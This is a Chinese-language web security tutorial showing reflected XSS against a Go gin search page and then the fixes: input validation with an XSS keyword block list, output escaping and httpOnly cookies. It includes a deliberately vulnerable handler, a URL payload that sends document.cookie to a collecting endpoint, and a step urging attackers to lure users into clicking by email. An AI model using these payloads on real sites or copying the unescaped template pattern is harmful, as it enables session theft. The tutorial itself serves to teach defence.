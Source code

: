在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞（本文忽略）；

### 反射型xss
本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空"`
}

func (ctr *Article) Search(c *gin.Context) {

	request := new(request.ArticleSearch)
	if err := c.Validate(request); err != nil {
		panic(err)
	}

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
		"keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串，默认会自动对特殊符号转义，
	})
}
```
[源码链接](https://github.com/wizardshan/elegantGo/tree/main/app/chapter3.0)

正常传参请求：

```
http://127.0.0.1:8080/article/search?keyword=手机
```
<img src="images/2-1.jpg">

#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?keyword=<script>alert('XSS')</script>
```
<img src="images/2-2.jpg">

#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>alert(document.cookie)</script>
```
<img src="images/2-3.jpg">

#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>document.write('<img src="http://127.0.0.1:8080/cookies?'+document.cookie+'"/>')</script>
这里的+号有问题，转义一下
http://127.0.0.1:8080/article/search?keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```
<img src="images/2-4.jpg">
服务器收集数据如下：
<img src="images/2-5.jpg">

#### 第四步：诱惑用户点击
把第三步精心设计的带有xss漏洞的url通过站内信或邮件的方式发给用户，内容为一些诱惑信息，目的是为了让用户单击链接，
服务器收集到cookie之后再以用户的身份登录网站。

反射型xss应用场景：搜索、查询等用户输入数据需要在前端展示的场景；

### 存储型xss
存储型xss恶意代码通常存储在数据库中，用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发，
而反射性xss需要诱导用户点击，所以存储型xss危害性更大。

例1:<br>
攻击者在文章评论中提交了恶意代码，所有浏览过这条评论的用户都会被收集敏感数据。

例2:<br>
攻击者在网站留言板块中提交了恶意代码，管理员在后台查看留言触发恶意代码，导致后台地址、管理员cookie泄漏。

存储型xss应用场景：用户名、昵称、留言、用户反馈、个人信息、发表文章、评论、私信等用户输入数据需要在前端展示的场景；

> 存储型xss原理跟反射性大同小异，这里不做代码演示，有兴趣的小伙伴可以自行深入学习。

#### 总结
**1、当遇到用户输入数据并且需要在前端展示的业务场景时，需要特别小心xss攻击（前端包括网站前端和后台前端）。**

**2、用户输入数据需要进行严格校验过滤。**
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空,CheckXSS~非法字符"`
}

var keywords = []string{
`(alert).*(\()`,
`(prompt).*(\()`,
`(eval).*(\()`,
`(window).*(\[)`,
`<script`,
`</script`,
`<x`,
`<X`,
`<http`,
`(function).*(\()`,
`<iframe`,
`(href).*(=)`,
`<br>`,
"alert`",
`(find).*(\()`,
`(top).*(\[)`,
`(vibrate).*(\()`,
`<object`,
`<embed`,
`<img`,
`<layer`,
`<style`,
`<meta`,
`=".*"`,
`<html`,
`(echo).*(\()`,
`(confirm).*(\()`,
`(write).*(\()`,
`</svg`,
`<div`,
`</image`,
`form>`,
`(vectors).*(\()`,
`<body`,
`(url).*(\()`,
`math>`,
`-->`,
`<!--`,
`<!attlist`,
`<label`,
`<%`,
`xmp>`,
`template>`,
`<!doctype`,
`=confirm`,
}

CheckXSS函数会检查参数是否包含keywords字符串数组里的恶意字符；
因为xss恶意代码还有很多变种，所以CheckXSS函数还会通过html转义、url转义、unicode转义、字符小写四个方面检测恶意字符；
xss-validator是github开源项目，简单化放在项目里使用；
```
**3、页面输出用户数据时进行转义。**
```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串，默认会自动对特殊符号转义，
    //"keyword": request.Keyword,
})
```
<img src="images/2-7.jpg">
<img src="images/2-8.jpg">

这种方式有小概率的局限性，比如用户输入数据框不是textarea文本框，而是具有更高自由度的富文本框，这时候转义就会出错，
这种情况下更要严格校验用户输入。
<img src="images/2-6.jpg">

**4、条件允许的情况下，cookie可以设置httpOnly。**
```go
c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
//最后一个参数就是httpOnly参数，当设置为true时，document.cookie拿不到token值
```
这种方式也有局限性，很多公司前后端分离，前端调用后端接口需要把token放在header头里，js需要拿到token值，httpOnly参数不能设置为true。

通过两节内容讲解了sql注入和xss攻击的原理步骤和防范措施，目的是有理有据的让大家老老实实的做参数校验，不要偷懒，
参数校验是web安全的最重要一环。
